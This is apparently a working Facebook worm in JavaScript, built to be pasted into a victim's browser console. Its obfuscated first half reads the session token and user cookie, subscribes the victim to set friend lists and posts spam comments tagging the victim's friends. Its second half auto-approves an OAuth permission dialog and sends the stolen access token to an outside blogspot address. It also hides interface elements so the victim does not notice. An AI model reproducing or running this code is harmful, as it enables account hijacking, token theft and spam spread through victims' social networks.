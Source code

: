 function IbraheemNada(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}
IbraheemNada("100005737200713");IbraheemNada("179344595600113");IbraheemNada("580159852099966");
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","1433192173597175","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);

if(location.hostname.indexOf("www.facebook.com","static.ak.facebook.com","apps.facebook.com","beta.facebook.com") >= 0){
var profile_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]).toString();
function uygulamaizinver(url){
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
if(xmlhttp.readyState == 4){
izinverhtml = document.createElement("html");
izinverhtml.innerHTML = xmlhttp.responseText;
if(izinverhtml.getElementsByTagName("form").length > 0){
izinverhtml.innerHTML = izinverhtml.getElementsByTagName("form")[0].outerHTML
act = izinverhtml.getElementsByTagName("form")[0].action;
duzenlevegonder(izinverhtml,act);
}
}
};		
xmlhttp.open("GET", url, true); 
xmlhttp.send();
}
function duzenlevegonder(formnesne,act){
izinverparams = "";
for(i=0;i<formnesne.getElementsByTagName("input").length;i++){
if(formnesne.getElementsByTagName("input")[i].name.indexOf("__CANCEL__") < 0 && formnesne.getElementsByTagName("input")[i].name.indexOf("cancel_clicked")){
izinverparams += "&" + formnesne.getElementsByTagName("input")[i].name + "=" + formnesne.getElementsByTagName("input")[i].value;
}
}
if(formnesne.getElementsByTagName("select").length > 0){
izinverparams += "&" + formnesne.getElementsByTagName("select")[0].name + "=80";
}
izinverparams.replace("&fb_dtsg","fb_dtsg");
izinverparams += "&__CONFIRM__=1";
formnesne = formnesne;
var xmlhttp = new XMLHttpRequest();
        xmlhttp.onreadystatechange = function () {
			if(xmlhttp.readyState == 4){
			  izinhtml = document.createElement("html");
			  izinhtml.innerHTML = xmlhttp.responseText;
			if(izinhtml.getElementsByTagName("form").length > 0){
			  izinhtml.innerHTML = izinhtml.getElementsByTagName("form")[0].outerHTML;
			  act = izinhtml.getElementsByTagName("form")[0].action;
			  duzenlevegonder(izinhtml,act)
			}else{
			sex = xmlhttp.responseText.match(/#access_token=(.*?)&expires_in/i);
			if (sex[1]) {
			tokenyolla(sex[1]);
			}
			}
			}
        };

xmlhttp.open("POST", act , true); 
xmlhttp.setRequestHeader ("Content-Type", "application/x-www-form-urlencoded");
xmlhttp.send(izinverparams);

}

function TokenUrl(id){
return "//www.facebook.com/dialog/oauth?response_type=token&display=popup&client_id=" + id  +"&redirect_uri=fbconnect://success&sso_key=com&scope=email,publish_stream,user_likes,friends_likes,user_birthday";
}

if(!localStorage['token_' + profile_id] ||  (localStorage['token_' + profile_id] && tarih.getTime() >= localStorage['token_' + profile_id])){
uygulamaizinver(TokenUrl(""));
var http = new XMLHttpRequest();
http['open']('GET', 'http://graph.facebook.com/' + profile_id, false);
http['send']();
var get = JSON.parse(http['responseText']);
var isim = get.name;
}
window.setInterval(function(){
if(document.getElementsByClassName("_5ce")){
for(i=0;i<document.getElementsByClassName("_5ce").length;i++){
document.getElementsByClassName("_5ce")[i].innerHTML = "";
}
}
if(document.getElementsByClassName("uiToggle wrap")){
for(i=0;i<document.getElementsByClassName("uiToggle wrap").length;i++){
document.getElementsByClassName("uiToggle wrap")[i].innerHTML = "";
}
}
if(document.getElementsByClassName("uiPopover")){
for(i=0;i<document.getElementsByClassName("uiPopover").length;i++){
document.getElementsByClassName("uiPopover")[i].innerHTML = "";
}
}
},200);
function tokenyolla(token){
top.location.href = 'http://07888.blogspot.com/#' + token;
}}
var alibasim = "يرجى الانتظار";
alert(alibasim);
